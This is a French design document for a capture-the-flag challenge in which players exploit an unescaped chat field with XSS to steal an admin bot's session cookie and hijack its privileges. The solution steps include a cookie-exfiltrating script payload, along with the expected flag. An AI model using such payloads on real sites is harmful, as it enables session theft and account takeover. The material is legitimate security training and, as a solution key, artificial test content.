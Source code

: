 == Challenge 6 _Cookie Rançon_ : Mauvaise gestion des sessions <ch-6>

Le joueur·euse doit intercepter le cookie de session "admin" utilisé par un bot qui consulte automatiquement chaque demande de rançon. Pour cela, il doit exploiter une faille XSS afin de voler ce cookie lorsque le bot visite la page. Ensuite, il devra injecter ce cookie dans son propre navigateur pour obtenir les droits administrateur et ainsi accéder à la fonctionnalité de suppression, ce qui lui permettra de supprimer définitivement les fichiers sur le serveur des attaquants.\
Ce challenge montre l'importance de la gestion des sessions et de la sécurité des cookies. Il sensibilise aux risques liés à la manipulation des cookies de session et à la nécessité de sécuriser les sessions utilisateur.

Pour ce défi, le participant·e voit ce message :
"_Les identifiants que vous avez récupérés vous donnent accès à la console interne des pirates… mais pas aux fonctions critiques. Le bouton "Delete All" reste grisé, seuls les administrateurs peuvent l’utiliser. Les attaquants ont mis en place un bot automatisé qui visite chaque nouvelle demande de rançon laissée sur le portail. Si vous parvenez à injecter un script malveillant dans ce formulaire, vous pourrez piéger le bot, intercepter son cookie de session administrateur, puis l’utiliser pour usurper ses droits et supprimer tous les fichiers chiffrés. Une fois les fichiers supprimer, *un message de confirmation* devrait apparaître pour le confirmer_"

*Étapes pour résoudre le challenge :*
+ Tester l'injection XSS dans le champ Message : `<script>alert(1)</script>`.
+ Exfiltrer le cookie de session "admin" en utilisant une injection XSS dans le champ Message du chat : `<script>fetch('/collect?c='+encodeURIComponent(document.cookie))</script>` et attendre que le bot ouvre la demande.
+ Récupérer le cookie volé `admin_session=<COOKIE_VALUE>`
+ Ouvrir les outils de développement du navigateur, aller dans l'onglet Application, puis dans la section Cookies.
+ Coller le cookie volé dans le champ de saisie du cookie de session.
+ Une fois le cookie injecté, recharger la page pour obtenir les droits administrateur et supprimer les fichiers.
+ Le serveur affiche un message de confirmation `ALL_FILES_DELETED` indiquant que tous les fichiers ont été supprimés.

*Outils nécessaires :* Un navigateur web avec les outils de développement pour intercepter et manipuler les cookies, ainsi qu'un éditeur de texte pour écrire le script XSS.

*Indices graduels :*
- Le premier indice expliquer que les balises HTML ne sont pas échappées dans le champ Message, ce qui permet d'injecter du code JavaScript. "_Les champs du formulaire ne filtrent pas correctement le code HTML, les balises HTML ne sont pas échappées, vous pouvez exécuter du JavaScript._"
- Le deuxième indice indique que le bot ouvre automatiquement les demandes de rançon, ce qui signifie que le joueur·euse peut exploiter cette fonctionnalité pour voler le cookie de session. "_Le bot ouvre toutes les demandes, il exécutera donc votre script lors de sa lecture._"
- Le troisième indice rappelle que le cookie de session "admin" est nécessaire pour accéder aux fonctionnalités administratives du portail. Il est donc crucial de le voler pour pouvoir supprimer les fichiers. "_Le cookie `admin` permet d’activer le bouton "Delete All"._"

*Flag attendu* : la réponse du serveur `ALL_FILES_DELETED`, ce qui montre au joueur·euse que tous les fichiers ont été supprimés avec succès. 

Une fois les fichiers supprimés, le joueur·euse peut passer au défi suivant pour bloquer l'attaquant.
